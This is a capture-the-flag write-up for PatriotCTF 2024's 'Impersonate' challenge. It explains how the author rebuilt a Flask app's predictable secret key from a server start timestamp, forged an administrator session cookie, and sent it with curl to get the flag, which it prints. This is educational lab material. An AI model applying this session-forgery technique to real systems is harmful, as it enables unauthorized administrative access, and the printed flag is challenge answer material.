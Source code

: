 # PatriotCTF 2024 - Impersonate
**Title:** Impersonate

**Description:** One may not be the one they claim to be.

http://chal.competitivecyber.club:9999/

**Files:** [app.py](https://github.com/xtasy94/CTFW/blob/main/PatriotCTF%202024/Impersonate/Files/app.py)

## Solution: 
The challenge was a Flask-based web application that used session cookies to manage user authentication. The goal was to obtain administrative access by forging a session cookie for the "administrator" user.
Upon inspecting the application, I discovered that it relied on **Flask sessions** to store user data in cookies. Flask uses signed cookies, meaning the session data is stored on the client side but signed with the server's `secret_key` to prevent tampering.
The challenge's admin page checked if a session contained:
- `username = "administrator"`
- `is_admin = True`
This would grant access to the flag if the signature of the session cookie matched the server's secret key.

Now I had to recreate the `secure_key`, I analyzed the code and noticed the server's secret key was being generated as follows:
```python
secure_key = hashlib.sha256(f'secret_key_{server_start_str}'.encode()).hexdigest()
```

The `server_start_str` was provided as `20240921140015`. I used this to recreate the exact secret key the server used by applying the same hashing process in my script.
I generated the `admin_uid` using the same `UUID` mechanism found in app.py, ensuring it would match the admin UUID that the application expected.
I ran the script and generated the session cookie:
```bash
$ python3 jwt.py
Generated session cookie: eyJ1c2VybmFtZSI6ImFkbWluaXN0cmF0b3IiLCJpc19hZG1pbiI6dHJ1ZSwidWlkIjoiMDJlYzE5ZGMtYmIwMS01OTQyLWE2NDAtNzA5OWNkYTc4MDgxIn0.Zu7TJg.0e-zkBBPxeCa5V8vxeDiu9AZAMg
```

Now that we have generated the session cookie, I crafted a curl command to send to `http://chal.competitivecyber.club:9999/`:
```bash
curl --request GET \
  --url http://chal.competitivecyber.club:9999/admin \
  --header 'Cookie: session=eyJ1c2VybmFtZSI6ImFkbWluaXN0cmF0b3IiLCJpc19hZG1pbiI6dHJ1ZSwidWlkIjoiMDJlYzE5ZGMtYmIwMS01OTQyLWE2NDAtNzA5OWNkYTc4MDgxIn0.Zu7TJg.0e-zkBBPxeCa5V8vxeDiu9AZAMg'
```

And I get the flag in response:
```
PCTF{Imp3rs0n4t10n_Iz_Sup3r_Ezz}
```